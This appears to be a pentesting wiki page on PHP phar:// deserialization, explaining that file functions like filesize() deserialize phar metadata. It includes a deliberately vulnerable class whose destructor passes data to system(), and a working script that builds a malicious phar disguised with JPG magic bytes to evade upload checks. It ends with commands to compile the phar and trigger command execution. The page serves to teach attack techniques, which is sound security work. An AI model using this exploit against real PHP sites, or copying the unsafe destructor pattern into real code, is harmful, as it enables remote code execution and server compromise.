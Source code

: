 # phar:// deserialization

**Phar** files (PHP Archive) files** contain meta data in serialized format**, so, when parsed, this **metadata** is **deserialized** and you can try to abuse a **deserialization** vulnerability inside the **PHP** code.

The best thing about this characteristic is that this deserialization will occur even using PHP functions that do not eval PHP code like **file_get_contents(), fopen(), file() or file_exists(), md5\_file(), filemtime() or filesize()**.

So, imagine a situation where you can make a PHP web get the size of an arbitrary file an arbitrary file using the **`phar://`** protocol, and inside the code you find a **class** similar to the following one:

{% code title="vunl.php" %}
```php
<?php
class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }

    function __destruct() {
        system($this->data);
    }
}

filesize("phar://test.phar"); #The attacker can control this path
```
{% endcode %}

You can create a **phar** file that when loaded will** abuse this class to execute arbitrary command**s with something like:

{% code title="create_phar.php" %}
```php
<?php

class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }

    function __destruct() {
        system($this->data);
    }
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
{% endcode %}

Note how the **magic bytes of JPG** (`\xff\xd8\xff`) are added at the beginning of the phar file to **bypass** **possible** file **uploads** **restrictions**.\
**Compile** the` test.phar` file with:

```bash
php --define phar.readonly=0 create_phar.php
```

And execute the `whoami` command abusing the vulnerable code with:

```bash
php vuln.php
```

## References

[https://blog.ripstech.com/2018/new-php-exploitation-technique/](https://blog.ripstech.com/2018/new-php-exploitation-technique/)
